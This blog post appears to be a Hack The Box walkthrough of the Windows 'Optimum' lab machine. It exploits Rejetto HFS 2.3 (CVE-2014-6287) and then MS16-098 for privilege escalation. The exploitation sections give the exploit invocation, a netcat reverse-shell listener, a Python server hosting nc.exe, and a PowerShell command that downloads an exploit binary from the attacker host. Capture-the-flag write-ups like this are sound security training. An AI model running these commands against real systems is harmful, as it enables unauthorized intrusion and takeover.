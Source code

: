 ```yaml
---
title: Optimum
date: 2020-05-28 20:13
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/optimum/optimum.png'
categories: htb
---
```


Here is another HTB post, but this time, we'll be interacting with an HTTPFileServer. Instead of using Metasploit, we'll be using Windows Exploit Suggester to find an exploit. Then we'll create a python server transfer the file so that we can execute it and gain root access. 

## Hack The Box

* Operating System: Windows 
* Difficulty: Easy

## Enumeration

First things first, let's start with a nmap scan.

<img src="/images/blog/optimum/nmapscan.jpg" alt="nmap scan">

	PORT   STATE SERVICE VERSION
	80/tcp open  http    HttpFileServer httpd 2.3
	|_http-server-header: HFS 2.3
	|_http-title: HFS /

From the results, there is only one port open, port 80, and the HTTP header mentions HFS, so we could be looking at an HTTPFileServer. If you’re not sure what an HTTPFileServer is, here’s a brief description:

*HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files. It's different from classic file sharing because it uses web technology to be more compatible with today's Internet. It also differs from classic web servers because it's very easy to use and runs "right out-of-the box".*

Let's take a closer look at HFS by visiting the webpage.

### Website Information

The first thing we can do is open the web browser and type in 10.10.10.8. 

<img src="/images/blog/optimum/website.jpg" alt="website 10.10.10.8">

Yup, it is an HTTPFileServer. At the top-left hand side, we can see that there’s a login feature, so I checked to see if there are any default credentials for HTTPFileServer–which there isn’t.

Next, I clicked on the HTTPFileServer 2.3 link on the bottom left-hand corner to see if I could find out more information about the server--and I did! It confirms that the server is running **Rejetto HttpFileServer 2.3**.

Not much else after using Gobuster and checking the source code, so let's see if we can find any exploits on Rejetto HTTPFileServer 2.3.

### Searchsploit 

Kali has searchsploit built-in, which searches in exploit-db database to see if there are any existing exploits. All of the exploits that you find in searchsploit are already downloaded onto the Kali machine too. To use it, we can type `searchsploit http` in the Kali terminal.

<img src="/images/blog/optimum/searchsploit.jpg" alt="running searchsploit">

Rejetto HTTP File Server (HFS) 2.3.x looks good since it calls out the version we're using specifically. Upon further investigation, this exploit allows us to execute arbitrary programs via a %00 sequence. Here's more information regarding the vulnerability: 

*The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.*

More information can be found here: [NIST: CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)

We can see that this is occurring in the python script too. In the image below, we can see %00 before the arbitrary code is executed.

<img src="/images/blog/optimum/39161.jpg" alt="running searchsploit">

Great, now that we know a bit more about the exploit, let's move on to the exploitation phase.

## Exploitation

Before we start exploitation, let's recap what we know so far: 

* Ran a nmap scan and found out that port 80 was open and currently running HFS.
* We found out which OS the HFS was running. 
* Next, we used searchsploit to find an exploit that allows us to execute arbitrary programs.

Okay, now that we've done a recap, let's give it a try.

### Gaining Reverse Shell

Before we can use the python script, let's read it first. I used the `gedit` command in case I needed to edit the script.. and we do. In this part of the script:

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number

We'll need to enter the: 

* local IP address = found by using ifconfig 
* local port number = this can be anything, I used 4444.

Once we save the changes above, we can follow the instructions found in the python script to run it. In this case, it looks like we need to have a web server hosting netcat that has a nc.exe file, we can use the `locate` command to find it in Kali.

As a helpful tip, I like to have all the files I need for a particular box in its own directory for easy access. For example, both the nc.exe and 39161.py are in a directory called optimum. 

Once we have all the files ready, we can open up three different terminal windows: 

* `python 39161.py 10.10.10.8 80` = run the exploit (python script).
* `nc -lnvp 4444` = created a ncat listener on the same port number mentioned in the script. 
* `python -m SimpleHTTPServer 80` = to host the nc.exe file needed to execute the script.


<img src="/images/blog/optimum/threecmd.jpg" alt="three terminal windows">


And there we go! You can see in shell window #2 that we have access to the box. 

From the target's command line, we can use the following commands:

* `whoami` = determine what user we are logged into.
* `systeminfo` = find out more information about the system.

Based on `whoami` we know that we’re logged in as kostas. Since we are not logged in as root, let's see if we can gain root access.

### Privilege Escalation

Since we have access to the targets machine and can run the `systeminfo command`, we can use Windows Exploit Suggester to see if it can locate any vulnerabilities.

Here's the GitHub repository for it: [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Before running Windows Exploit Suggester, we'll need to copy the information found in `systeminfo` and paste it into a .txt file. I just named mine systeminfo.txt to make it easier. 

Once the file is created, we'll type in Kali terminal: 

	./windows-exploit-suggester.py --database 2020-05-27-mssb.xls --systeminfo systeminfo.txt

There are tons of exploits found for this machine, so the process of elimination, I went from top to bottom and removed any exploits that would not complete a privilege escalation. Eventually, I found this one:

`[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow`

And taking a look a closer look at the details for this exploit, it calls out MS16-098: 

*This security update resolves vulnerabilities in Microsoft Windows. The vulnerabilities could allow elevation of privilege if an attacker logs on to an affected system and runs a specially crafted application that could exploit the vulnerabilities and take control of an affected system.*

This looks interesting, so we'll give it a try! 

In Kali, we'll first want to download the exploit.

	wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

Next, we'll want to create a python server in Kali that will host the exploit.

	python -m SimpleHTTPServer 4444

Lastly, we'll want to download the exploit from the python server into the target machine. 

	powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.2:4443/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

Here goes nothing....

<img src="/images/blog/optimum/root.jpg" alt="three terminal windows">

Did we do it? I think we did! We can confirm that we have root access by typing `whoami`. In this case, we have authority/system which is root!

## Conclusion

Enumerate. Enumerate. Enumerate. I had a hard time with the privilege escalation on this box. But it helped when I found out more information about the machine, what OS it's running, the architecture, etc.

Also, this box goes to show how critical it is to complete updates. Since we found out the OS of the HFS Server and upon further investigation realized that the Windows OS wasn't patched, we were able to gain root access. This is why it's so important to update! Especially if there are any existing vulnerabilities.